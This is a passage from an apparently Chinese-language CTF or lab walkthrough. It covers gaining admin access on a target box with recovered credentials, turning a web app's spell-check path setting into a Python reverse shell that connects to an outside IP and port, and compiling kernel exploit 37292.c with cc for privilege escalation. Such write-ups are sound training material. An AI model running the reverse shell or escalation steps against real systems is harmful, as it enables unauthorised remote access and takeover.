 ![image.png](https://s2.loli.net/2025/05/02/3auzH2q7E4F8SsP.png)

登录进去看看

又找到新的密码

![image.png](https://s2.loli.net/2025/05/02/8AnP49ErIg5RSMs.png)

登录到doak的账户看看有啥吗 找到一个路径并下载了图片

binwalk和foremost都分离不出来

又试了试exiftool和strings

发现有个base64加密的东东

![image.png](https://s2.loli.net/2025/05/02/Vq3GMJXwo58NKlS.png)

估计是密码还是啥

用admin和密码成功登录进管理员用户

## 漏洞利用

### 配置 反弹shell
其实就是在网站能否找到能够执行反弹shell的代码 这里原本是个拼写检查 我们设置成shell


![image.png](https://s2.loli.net/2025/05/02/l6BdYF5qitJbgEa.png)


找到个地方 可以修改系统路径 我们用 python反弹shell试试

```
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("61.139.2.153",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
 
![image.png](https://s2.loli.net/2025/05/02/DUyAfvF3ogYeP2s.png)

反弹成功

![image.png](https://s2.loli.net/2025/05/02/vHo5MIFnbzrhT6O.png)


## 提权
![image.png](https://s2.loli.net/2025/05/02/ncNIl2WFSOTGfYq.png)

内核提权

要注意一点 这里面没有gcc环境 只能通过cc来编译

里面有些部分需要改
```
sed -i 's/gcc/cc/g' 37292.c
```
![image.png](https://s2.loli.net/2025/05/02/sO8DINnSetYxTwh.png)
